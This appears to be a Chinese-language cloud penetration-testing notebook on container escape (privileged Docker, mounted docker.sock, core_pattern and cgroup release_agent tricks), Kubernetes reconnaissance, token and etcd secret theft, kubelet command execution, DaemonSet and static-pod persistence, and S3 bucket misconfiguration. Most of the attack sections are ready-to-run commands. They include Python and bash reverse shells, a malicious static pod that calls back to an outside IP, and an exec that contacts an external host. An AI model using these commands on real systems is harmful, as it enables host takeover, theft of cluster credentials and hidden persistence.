









## 1、docker 

### (1) 特权容器导致安全隔离机制失效

使用 --privileged 启动容器，运行时赋予容器几乎所有 Linux Capabilities (包含 CAP_SYS_ADMIN) , 还挂载了宿主机的全部 /dev 节点，导致容器内可以访问宿主机的整个文件系统。有时候在 CI/CD 中运行 Docker-in-Docker 构建镜像， CI/CD 所在 Job container 会开启 privileged 模式，因为 git push 代码之后，CI 容器需要进行一些质量测试等，完之后进行编译测试打包镜像，push 到 registry ，通过 k8s 部署该应用。这里涉及到容器内进行 docker run 操作，i创建容器涉及到创建 namespace、配置网络、准备 filesystem、管理 cgroup 等，这里可以精细化操作，只加入有必要的权限  --cap-add=SYS_ADMIN   --cap-add=NET_ADMIN   --cap-add=NET_RAW ，但是 --privileged 更简便。



环境搭建

```bash
docker run --rm -it --privileged ubuntu bash
```

容器内部检测指令

```
grep Cap /proc/self/status
CapEff CapBnd 的位数为1的表示能力启用

grep Seccomp /proc/self/status
Seccomp: 0 表示为启用 BPF 系统调用过滤器

cat /proc/self/attr/current
特权容器：unconfined

// 尝试直接挂载
mkdir -p /mnt/test
mount -t tmpfs tmpfs /mnt/test && echo "CAP_SYS_ADMIN OK" && umount /mnt/test
```

宿主机检测

```
docker ps -q | xargs -I {} docker inspect --format '{{.Id}}: Privileged={{.HostConfig.Privileged}}' {} | grep 'Privileged=true'
```



挂载宿主机文件系统

```
// 找到相应的宿主机根分区设备
lsblk 
// 查看类型
blkid /dev/sdd
// 
mkdir -p /mnt/host
// 指定类型，只读挂载
mount -t ext4 -o ro /dev/sdd /mnt/host
```


### (2)容器挂载 Docker socket 

Docker Daemon 监听在 Unix Domain Socket 上并以 root 权限运行。将宿主机的 /var/run/docker.sock 挂载进容器，相当于宿主机的 Docker 控制平面 API 暴露在容器内，容器内可通过该 API ,如果存在 dockerd 大概是以下流程，没有 dockerd 不方便安装则使用 curl 手写 json 调用 api 

```
CI Runner 容器
  Code、Dockerfile、docker CLI
        |
        | docker build -t app:ci .
        v
容器内 docker CLI 读取当前目录作为 build context
        |
        | 通过 /var/run/docker.sock 发给宿主机 dockerd
        v
宿主机 dockerd
  - 解析 Dockerfile
  - 拉基础镜像
  - 创建临时构建容器执行 RUN/COPY
  - 生成镜像 app:ci，存入宿主机 image store
        |
        v
容器内再执行 docker images / docker push
```

环境搭建

```bash
docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu bash
```

容器内检测

```
ls /var/run

curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

poc (dockerd)

```bash
wget https://download.docker.com/linux/static/stable/x86_64/docker-xxxx.tgz
tar xzvf docker-xxxx.tgz
./docker/docker -H unix:///var/run/docker.sock run \
  -v /:/host_root -it --privileged alpine chroot /host_root /bin/sh
```

poc(curl)

```bash
# 看宿主机镜像
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json

# 看宿主机容器
curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json

# 创建并启动一个挂宿主机根的特权容器
curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/containers/create?name=pwn" \
  -H "Content-Type: application/json" \
  -d '{
    "Image":"ubuntu",
    "Cmd":["sh","-c","chroot /host_root /bin/sh"],
    "Tty":true,
    "OpenStdin":true,
    "HostConfig":{"Binds":["/:/host_root"],"Privileged":true}
  }'
  
curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/containers/pwn/start"

EXEC_ID=$(curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/containers/pwn/exec" \
  -H "Content-Type: application/json" \
  -d '{"Cmd":["curl","http://121.41.188.46:7777"],"AttachStdout":true,"AttachStderr":true}' \ | sed -E 's/.*"Id":"([^"]+)".*/\1/')

echo $EXEC_ID

curl -s --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/exec/$EXEC_ID/start" \
  -H "Content-Type: application/json" \
  -d '{"Detach":false,"Tty":false}'
// 这里每次都要搞一个 execId 才能执行一次命令，比较麻烦，后续就是特权容器逃逸
```



宿主机排查

```bash
docker inspect --format '{{.Name}}: {{range .Mounts}}{{println .Source "->" .Destination}}{{end}}' $(docker ps -q) | grep docker.sock
```

### (3) 普通用户位于 docker 用户组

普通用户可以启用 docker ，可以创建一个存在缺陷的容器，然后尝试 docker 逃逸，这样可以和 docker 守护进程交互，获取宿主机的 root 权限。

### (4) docker remote api 未授权访问

和上述 docker sock 的逃逸差不多，改个 url 。

### (5) 工具

https://github.com/docker/docker-bench-security

https://github.com/kost/dockscan

## 2、k8s



### (1) 上下文信息收集

一些场景的信息探针

| 探针            | 检查原理                        | 排查指令                                                     |
| --------------- | ------------------------------- | ------------------------------------------------------------ |
| capabilities    | 解析内核 Capability 掩码        | grep CapEff /proc/self/status                                |
| cgroups         | 查看 Cgroup 版本与层次结构      | stat -fc %T /sys/fs/cgroup/ 2>/dev/null \|\| cat /proc/1/cgroup |
| cloudmetadata   | 扫描 公有云元数据端点           | for ip in 169.254.169.254 100.100.100.200 192.0.0.192; do (curl -m 1 -sI $ip >/dev/null && echo "[+] $ip 可达"); done |
| containerdetect | 判别运行时类型 (Docker/CRI-O等) | grep -E 'docker\|kubepods\|containerd' /proc/1/cgroup \|\| test -f /.dockerenv |
| runtimes        | 排查容器运行时套接字            | ls -la /var/run/docker.sock /run/containerd/containerd.sock /run/crio/crio.sock 2>/dev/null |
| devices         | 枚举裸磁盘块设备                | ls -la /dev \| grep -E '^b'                                  |
| pidnamespace    | 检查 hostPID 状态               | ls -d /proc/[0-9]* \| wc -l && head -n 1 /proc/1/cmdline     |
| syscalls        | 验证 Seccomp 系统调用放行       | grep -E 'Seccomp' /proc/self/status                          |
| authorization   | 查询当前 SA 拥有的 RBAC 规则    | kubectl auth can-i --list 2>/dev/null \|\| cat /var/run/secrets/kubernetes.io/serviceaccount/namespace |
| token           | 读取并解析 SA JWT Token         | cat /var/run/secrets/kubernetes.io/serviceaccount/token <br /><br /> |
| environment     | Dump 环境变量                   | strings /proc/self/environ                                   |
| mount           | 解析挂载点与权限属性            | cat /proc/self/mountinfo \| awk '{print $4, $5, $6}'         |
| usernamespace   | 检查 UID/GID 用户映射           | cat /proc/self/uid_map && id                                 |
| Seccomp         | 检查 seccomp 过滤是否启用       | cat /proc/self/attr/current && grep Seccomp /proc/self/status |
| services        | 通过环境变量发现内部服务        | env \| grep -E '_SERVICE_HOST\|_SERVICE_PORT'                |

```shell
#!/bin/sh
echo "=== 1. 容器身份与 PID 命名空间 ==="
cat /proc/1/cgroup | head -n 3
echo "进程总数: $(ls -d /proc/[0-9]* | wc -l) (PID 1: $(cat /proc/1/cmdline | tr '\0' ' '))"

echo "=== 2. Linux Capabilities 有效能力 ==="
grep CapEff /proc/self/status

echo "=== 3. 敏感套接字与挂载点 ==="
cat /proc/self/mountinfo | grep -E 'docker\.sock|containerd\.sock|/var/log|rootfs|lxcfs' || echo "[-] 无敏感套接字挂载"

echo "=== 4. Cgroup 版本检测 ==="
if [ -d /sys/fs/cgroup/memory ]; then echo "[!] Cgroup v1 存在 (有 release_agent 风险)"; else echo "[*] 统一层级/未挂载"; fi

echo "=== 5. 云厂商 IMDS 端点测试 ==="
for ip in 169.254.169.254 100.100.100.200; do
  nc -z -w 1 $ip 80 2>/dev/null && echo "[!] 发现可访问元数据 IP: $ip"
done

echo "=== 6. K8s ServiceAccount Token 探测 ==="
SA_TOKEN="/var/run/secrets/kubernetes.io/serviceaccount/token"
if [ -f "$SA_TOKEN" ]; then
  echo "[+] 发现 SA Token, Namespace: $(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)"
  cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d. -f2  | base64 -d 
  cat "$SA_TOKEN" | cut -d. -f2 | base64 -d 2>/dev/null | grep -oE '"sub":"[^"]+"'
else
  echo "[-] 未挂载 ServiceAccount Token"
fi
```


###  (2) 容器逃逸

1、**docker sock 挂载**

```
curl -s --unix-socket /var/run/docker.sock http://localhost/images/create?fromImage=alpine:latest -X POST

cid=$(curl -s --unix-socket /var/run/docker.sock http://localhost/containers/create -X POST -H 'Content-Type: application/json' -d '{"Image":"alpine","Cmd":["sh","-c","chroot /host id > /host/tmp/pwn.txt"],"Binds":["/:/host"]}' | grep -oE '[a-f0-9]{64}')

curl -s --unix-socket /var/run/docker.sock http://localhost/containers/$cid/start -X POST
```

或是 **containerd sock 挂载** 

```
# 创建并运行一个特权容器，挂载宿主机根目录
ctr -n k8s.io run --privileged --mount type=bind,src=/,dst=/hostfs,options=rbind -t docker.io/library/alpine:latest xxxx sh
```

2、**覆写宿主机内核崩溃转储命令，** 

/proc/sys/kernel/core_pattern 用于定义转储文件的保存格式与目标路径。
Linux 内核提供了一个特性：若该文件的第一个字符是管道符号 | ，内核不会将崩溃数据写入磁盘文件，而是会将其作为标准输入，通过管道传递给管道符后面指定的可执行程序处理

通过 `/etc/mtab` 查看容器可写层在宿主机上的路径



然后创建一个脚本

```
cat > /tmp/.x.py << 'EOF'
#!/usr/bin/python3
import os, pty, socket
lhost = "127.0.0.1"
lport = 4444
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
os.putenv("HISTFILE", '/dev/null')
pty.spawn("/bin/bash")
os.remove('/tmp/.x.py')
s.close()
EOF
chmod +x /tmp/.x.py
echo -e "|/var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/6061/fs/tmp/.x.py \rcore" > /proc/sys/kernel/core_pattern

cat > /tmp/.x.py << 'EOF'
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'
EOF
chmod +x /tmp/.x.py
```

触发崩溃即可

```
kill -s SIGSEGV $$
```

3、**cgroup v1 release_agent 逃逸**

notify_on_release：子 Cgroup 目录下的开关文件。设置为 1 时，通知内核监控该组中的进程状态。
release_agent：Cgroup 根目录下的配置文件。里面记录一个可执行程序的路径

回调流程：
当某个开启了 notify_on_release=1 的 Cgroup 内部最后一个进程退出时，内核会检测到该事件，并调用底层的 call_usermodehelper() 函数，以宿主机 Root 身份在宿主机环境中直接执行 release_agent 中指定的程序。

```
host_path=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/self/mountinfo)
mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir -p /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$host_path/exp.sh" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exp.sh && echo "id > $host_path/out" >> /exp.sh && chmod +x /exp.sh
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
cat /out
```

### (3) 权限维持

- **Etcd 未授权拉取 Token** 

    直连 Etcd 2379 导出集群所有 Secret

    ```
    curl -s http://<master_ip>:2379/v2/keys/registry/secrets?recursive=true | grep -oE '"value":"[^"]+"'
    ```

- **Kubelet 10250 未授权命令执行**

    <container_name> 需要在 api-server 查询（比较难利用）

    pod_name 在 token 中

    ns 通过 cat /var/run/secrets/kubernetes.io/serviceaccount/namespace 读取

    ```
    curl -k -X POST "https://<worker_ip>:10250/run/<namespace>/<pod_name>/<container_name>" -d "cmd=id"
    ```

- **集群特权 DaemonSet 持久化**

    挂载宿主机目录

    ```
    kubectl apply -f - <<EOF
    apiVersion: apps/v1
    kind: DaemonSet
    metadata:
      name: host-probe
      namespace: kube-system
    spec:
      selector: { matchLabels: { name: host-probe } }
      template:
        metadata: { labels: { name: host-probe } }
        spec:
          hostPID: true
          hostNetwork: true
          containers:
          - name: probe
            image: alpine
            securityContext: { privileged: true }
            command: ["/bin/sh", "-c", "sleep 3600"]
            volumeMounts: [{ mountPath: /host, name: root }]
          volumes: [{ name: root, hostPath: { path: / } }]
    EOF
    ```

- 静态 pod 

在 node 上写入恶意 pod 清单，直接由 Kubelet 加载执行，不经过 api-server

获取目录

```
grep staticPodPath /var/lib/kubelet/config.yaml
```

然后写入恶意 yaml , 等待加载执行

```
cat > /etc/kubernetes/manifests/evil-static-pod2.yaml <<'EOF'
apiVersion: v1
kind: Pod
metadata:
  name: evil-static-pod
spec:
  containers:
  - name: evil
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    command: ["bash", "-c", "bash -i >& /dev/tcp/172.30.0.12/4444 0>&1"]
    securityContext:
      privileged: true
EOF
```



- 临时容器特性

```
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```


```bash
curl -s -k -X PATCH 'https://172.30.0.10:6443/api/v1/namespaces/default/pods/target-app/ephemeralcontainers' -H 'Host: 172.30.0.10:6443' -H 'User-Agent: curl/7.88.1' -H 'Accept: application/json' -H "Authorization: Bearer $TOKEN" -H 'Content-Type: application/strategic-merge-patch+json' --data-raw '{"spec":{"ephemeralContainers":[{"name":"debugger-shell","image":"nginx:latest","command":["sh"],"stdin":true,"tty":true,"targetContainerName":"target-app"}]}}'
```



并没有权限，没有 cart 则 -k ,否则使用 

```
--cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

查看权限

```bash
curl -s -k -i -X POST "https://172.30.0.10:6443/apis/authorization.k8s.io/v1/selfsubjectrulesreviews" -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data-raw '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"default"}}'
```

当前命名空间所有的权限

```json
HTTP/2 201 
audit-id: c0dcab72-0907-44ca-9ca8-f63d630977a5
cache-control: no-cache, private
content-type: application/json
x-kubernetes-pf-flowschema-uid: 9baa7b29-a88b-42e3-8a7f-f15bea9e62ee
x-kubernetes-pf-prioritylevel-uid: bf66c30e-6b4e-4732-ac76-daf5da026192
content-length: 1485
date: Mon, 28 Sep 2026 04:34:55 GMT

{
  "kind": "SelfSubjectRulesReview",
  "apiVersion": "authorization.k8s.io/v1",
  "metadata": {
    "creationTimestamp": null
  },
  "spec": {},
  "status": {
    "resourceRules": [
      {
        "verbs": [
          "create"
        ],
        "apiGroups": [
          "authorization.k8s.io"
        ],
        "resources": [
          "selfsubjectaccessreviews",
          "selfsubjectrulesreviews"
        ]
      },
      {
        "verbs": [
          "create"
        ],
        "apiGroups": [
          "authentication.k8s.io"
        ],
        "resources": [
          "selfsubjectreviews"
        ]
      }
    ],
    "nonResourceRules": [
      {
        "verbs": [
          "get"
        ],
        "nonResourceURLs": [
          "/.well-known/openid-configuration",
          "/.well-known/openid-configuration/",
          "/openid/v1/jwks",
          "/openid/v1/jwks/"
        ]
      },
      {
        "verbs": [
          "get"
        ],
        "nonResourceURLs": [
          "/api",
          "/api/*",
          "/apis",
          "/apis/*",
          "/healthz",
          "/livez",
          "/openapi",
          "/openapi/*",
          "/readyz",
          "/version",
          "/version/"
        ]
      },
      {
        "verbs": [
          "get"
        ],
        "nonResourceURLs": [
          "/healthz",
          "/livez",
          "/readyz",
          "/version",
          "/version/"
        ]
      }
    ],
    "incomplete": false
  }
}
```

- kubeconfig 泄露
- api-server 未授权 6443 8080

### (4) 横向移动

大多还是危险服务，凭证获取，容器逃逸那些内容。

## 3、对象存储

存储海量文件的分布式存储服务，用于存储大量非结构化数据，经常由于配置问题导致信息泄露

```
IAM 身份
  │
  ├── User
  └── Role
        │
        ↓
     STS AssumeRole
        │
        ↓
Temporary Credentials
        │
        ↓
   请求 S3
        │
        ↓
┌──────────────────────────────┐
│ AWS Authorization Evaluation │
│                              │
│ Identity Policy              │
│ Resource Policy              │
│ ACL                          │
│ Block Public Access          │
│ SCP                          │
│ VPC Endpoint Policy          │
└──────────────────────────────┘
        │
        ↓
    Allow / Deny
```

Principal --> 使用什么凭证 --> 请求什么资源 --> 经过什么策略 --> allow/deny


IAM 身份控制和权限管理

IAM 用户，表示一个人或者一个应用，拥有长期凭证；

IAM Role ，没有长期密码或者 ak/sk ,类似一套权限集合， 某个用户，EC2、容器（K8s Pod）、CI/CD 流水线（GitHub Actions）都可以承担 role ，执行该 role 拥有的权限。 （principal  --> sts:AssumeRole --> 校验目标 Role 的 Trust policy 是否允许 principal 承担该 role，然后生成一套临时凭证返回）

```json
// trust policy
{
  "Version": "2025-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::123456789012:user/aaa" // 允许 aaa 承担
        // 或配置为: "Service": "ec2.amazonaws.com" 允许 EC2 机器承担
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
// permission policy
{
  "Version": "2025-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "s3:GetObject",
        "s3:ListBucket"
      ],
      "Resource": "arn:aws:s3:::production-data/*" // 仅允许读取该生产存储桶
    }
  ]
}
```

这里不同账户的 IAM user 可以 assume 对方的 role。

identity policy {User Group Role}

```json
{
  "Effect": "Allow",
  "Action": "s3:GetObject",
  "Resource": "arn:aws:s3:::prod-backup/*"
}
```

bucket policy {bucket}

```json
{
  "Effect": "Deny",
  "Principal": "*",
  "Action": "s3:*",
  "Resource": ["arn:aws:s3:::corp-bucket", "arn:aws:s3:::corp-bucket/*"],
  "Condition": {
    "StringNotEquals": { "aws:SourceVpce": "vpce-0abc123" }
  } // 限制访问条件
}
```

Access Control List {bucket Object} 

```
READ：列出 bucket 内容/ 读取对象内容
WRITE：写入、覆盖、删除对象
READ_ACP：读取 ACL 本身
WRITE_ACP：修改 ACL 本身
FULL_CONTROL：以上全部
```

VPC Endpoint Policy  

```json
{
  "Statement": [{
    "Effect": "Allow",
    "Principal": "*",
    "Action": "s3:*",
    "Resource": ["arn:aws:s3:::corp-bucket", "arn:aws:s3:::corp-bucket/*"]
  }]
}
```

Block Public Access



目前一般都使用  bucket policy Iam policy ，逐步弃用 acl .

### (1) Bucket 遍历

一般存储桶的 url 格式是固定的，例如 `https://<bucketName>.s3.<area>.xxxxxx.com`  所以可以遍历 bucket_name ，通过页面返回内容来判断是否存在该桶

InvalidBucketName ： 访问的存储桶名称不符合命名规范，服务端拒绝请求

NoSuchBucket ： 全局命名空间下找不到这个 bucket , 这里我们可以登录云服务平台，以该 name 创建一个桶，这样当其他人访问的时候会显示我们上传的文件，这里可能会被挂载钓鱼网页，xss 等

如果该桶存在，可能会列出其中的 Object ，也可能显示 accessDenied

### (2) 任意文件上传

配置不当，公共可读写会造成任意文件上传，文件覆盖，如果对象存储支持 html 解析，还可以进行 xss ，钓鱼网页等操作

### (3) ACL 可写

通过 put 方法, x-oss-object-acl: public-read 更改对象 acl 策略

## 4、cicd


## 5、 内网渗透



https://www.netstarsec.com/%e9%9b%86%e6%9d%83%e7%b3%bb%e5%88%97%e7%a7%91%e6%99%ae-%e6%83%b3%e4%ba%86%e8%a7%a3ad%e6%94%bb%e5%87%bb%e9%9d%a2%ef%bc%9f%e7%8b%ac%e5%ae%b6%e5%b9%b2%e8%b4%a7%e6%94%be%e9%80%81%ef%bc%88%e4%b8%8b/


**content**

https://github.com/HXSecurity/TerraformGoat

https://yuy0ung.github.io/

https://wiki.teamssix.com/CloudSecurityResources/

https://github.com/neargle/re0-kubernetes-sec-archive
